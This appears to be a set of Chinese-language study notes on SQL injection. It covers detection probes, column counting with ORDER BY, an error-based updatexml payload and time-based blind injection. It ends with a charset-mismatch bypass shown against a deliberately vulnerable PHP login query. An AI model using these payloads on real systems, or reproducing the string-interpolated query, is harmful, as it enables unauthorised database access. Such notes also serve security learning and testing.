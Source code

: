 # SQL注入
### 判断能否sql注入
* 提交单引号 ```id=1'```
* and大法和or大法 
```
id=2 and 1=1
id=2 or 1=1 
```
* 加减法
```
id=1+1
```
### 数据库权限判断

### 猜字段个数
* 在注入点后面加order by x
### Union all
union all只是简单的将两个结果合并后就返回。这样，如果返回的两个结果集中有重复的数据，那么返回的结果集就会包含重复的数据了。

## 显错注入
1. UPDATEXML (XML_document, XPath_string, new_value); <br>
例子?id=1'+updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)%23
##  盲注，
没有任何信息返回，一般可以利用时间sleep()来判断查询成功与否，使用and来盲猜数据库名，表名
### MSSQL
*  is_srvrolemember ('sysadmin')函数是用来判断当前的数据用户是否属于管理员组权限
---
## 高级绕过方法
### 利用字符串编码来绕过php检测
Mysql字段的字符集和php mysqli客户端设置的字符集不相同
例如佬这个汉字的UTF-8编码是xE4xBDxAC
我们依次使用xE4,xE4xBD,xE4xBDxAC作为参数传入
能够发现前两个都可以成功，但是第三个(佬的完整编码)会引发一个错误
这是因为在utf8转换为latin1时,latin1并不支持汉字,而之前并没有报错是因为编码不完整,Mysql进行转换时自动将其忽略
```
if ($username === 'admin') {
    if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
        die('Permission denied!');
    }
}
$result = $mysqli->query("SELECT * FROM z_users where username = '{$username}' and password = '{$password}'");
```
此时传入username=admin%c2，php的检测if ($username === 'admin')自然就可以绕过的，在mysql中可以正常查出username='admin'的结果。